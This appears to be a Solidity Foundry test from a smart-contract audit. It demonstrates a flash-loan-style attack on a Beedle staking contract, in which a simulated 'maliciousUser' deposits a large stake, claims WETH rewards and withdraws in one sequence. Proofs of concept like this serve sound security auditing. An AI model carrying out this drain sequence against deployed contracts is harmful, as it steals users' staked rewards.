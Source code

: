 ```Solidity
    function mint(address _to, uint256 _amount) public {
        _mint(_to, _amount);
    }
}

contract StakingTest is Test {

    Beedle public beedle;
    WETH9 public weth;

    Staking public staking;

    address public user1 = makeAddr("user1");
    address public user2 = makeAddr("user2");
    address public user3 = makeAddr("user3");

    function setUp() public {
        beedle = new Beedle();
        weth = new WETH9();
        staking = new Staking(address(beedle), address(weth));
        beedle.mint(user1, 1000e18);
        beedle.mint(user2, 1000e18);
        beedle.mint(user3, 1000e18);

        vm.startPrank(user1);
        beedle.approve(address(staking), 1000e18);
        staking.deposit(1000e18);
        vm.stopPrank();

        vm.startPrank(user2);
        beedle.approve(address(staking), 1000e18);
        staking.deposit(1000e18);
        vm.stopPrank();

        vm.startPrank(user3);
        beedle.approve(address(staking), 1000e18);
        staking.deposit(1000e18);
        vm.stopPrank();

        weth.mint(address(staking), 100e18);
    }

    function testFlashLoan() public { 
        address maliciousUser = makeAddr("maliciousUser");

        // imitate a flash loan being called
        beedle.mint(maliciousUser, 10000e18);

        console.log("Malicious User before:  ", weth.balanceOf(maliciousUser));
        console.log("Staking Contract before:", weth.balanceOf(address(staking)));

        vm.startPrank(maliciousUser);        
        beedle.approve(address(staking), 10000e18);
        staking.deposit(10000e18);        
        staking.claim();
        staking.withdraw(10000e18);
        vm.stopPrank();

        console.log("Malicious User after:  ", weth.balanceOf(maliciousUser));
        console.log("Staking Contract after:", weth.balanceOf(address(staking)));
    }
}

```